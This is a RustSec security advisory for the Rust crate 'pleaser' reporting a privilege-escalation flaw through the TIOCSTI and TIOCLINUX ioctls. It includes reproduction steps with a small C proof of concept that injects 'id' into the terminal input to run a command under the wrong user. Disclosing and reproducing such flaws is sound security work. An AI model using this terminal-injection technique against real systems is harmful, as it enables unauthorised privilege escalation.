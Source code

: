 ```toml
[advisory]
id = "RUSTSEC-0000-0000"
package = "pleaser"
date = "2023-04-29"
url = "https://gitlab.com/edneville/please/-/issues/13"
categories = ["privilege-escalation"]
keywords = []
cvss = "CVSS:3.1/AV:L/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N"

[versions]
patched = []

[affected]
```

# Vulnerable to privilege escalation using ioctls TIOCSTI and TIOCLINUX

please is vulnerabily to privilege escalation using ioctls TIOCSTI
and TIOCLINUX on systems where they are not disabled.

Here is how to see it in action:

```
$ cd "$(mktemp -d)"
$ git clone --depth 1 https://gitlab.com/edneville/please.git
$ cd please/
$ git rev-parse HEAD  # f3598f8fae5455a8ecf22afca19eaba7be5053c9
$ cargo test && cargo build --release
$ echo "[${USER}_as_nobody]"$'\nname='"${USER}"$'\ntarget=nobody\nrule=.*\nrequire_pass=false' | sudo tee /etc/please.ini
$ sudo chown root:root ./target/release/please
$ sudo chmod u+s ./target/release/please
$ cat <<TIOCSTI_C_EOF | tee TIOCSTI.c
#include <sys/ioctl.h>

int main(void) {
  const char *text = "id\n";
  while (*text)
    ioctl(0, TIOCSTI, text++);
  return 0;
}
TIOCSTI_C_EOF
$ gcc -std=c99 -Wall -Wextra -pedantic -o /tmp/TIOCSTI TIOCSTI.c
$ ./target/release/please -u nobody /tmp/TIOCSTI  # runs id(1) as ${USER} rather than nobody
```

Please note that:

This affects both the case where root wants to drop privileges as well when non-root wants to gain other privileges.
